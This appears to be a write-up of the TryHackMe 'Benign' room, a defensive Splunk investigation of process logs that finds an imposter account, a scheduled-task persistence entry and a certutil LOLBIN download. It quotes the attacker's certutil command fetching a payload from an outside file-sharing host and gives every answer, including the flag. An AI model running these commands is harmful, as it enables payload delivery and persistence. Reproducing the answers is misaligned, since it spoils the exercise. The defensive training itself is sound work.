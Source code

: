 # Benign

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the 
HR department was compromised. Some tools related to network information gathering/scheduled tasks were executed 
which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with 
Event ID: `4688` and ingested them into Splunk with the index `win_eventlogs` for further investigation.

All the required logs are ingested in the index `win_eventlogs`.

The network is divided into three logical segments. 

IT Department:

* James
* Moin
* Katrina

HR department:

* Haroon
* Chris
* Diana

Marketing department:

* Bell
* Amelia
* Deepak

## Questions

**How many logs are ingested from the month of March?**

Answer: `13959`

**Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?**

    index=win_eventlogs 
    | dedup UserName 
    | table UserName

Answer: `Amel1a`

**Which user from the HR department was observed to be running scheduled tasks?**

    index=win_eventlogs schtasks CommandLine="/create /tn OfficUpdater /tr \"C:\\Users\\Chris.fort\\AppData\\Local\\Temp\\update.exe\" /sc onstart"

Answer: `Chris.fort`

**Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.**

| ![user](../../_static/images/splunkbenign1.png)
|:--:|
| `haroon` |

    certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe

**To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?**

`benign.exe` was downloaded after a connection was established to `https://controlc.com/548ab556`. The `-f` and `-urlcache` forces a fetch of the url.

Answer: `certutil.exe`

**What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)**

    index=win_eventlogs UserName="Daina" OR UserName="Chris.fort" OR UserName="Haroon" CommandLine=" certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe" | dedup ProcessName

Answer: `2022-03-04`

**Which third-party site was accessed to download the malicious payload?**

Answer: `controlc.com`

**What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?**

Answer: `benign.exe`

**The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?**

| ![user](../../_static/images/splunkbenign2.png)
|:--:|
| `THM{KJ&*H^B0}` |

**What is the URL that the infected host connected to?**

Answer: `https://controlc.com/548ab556`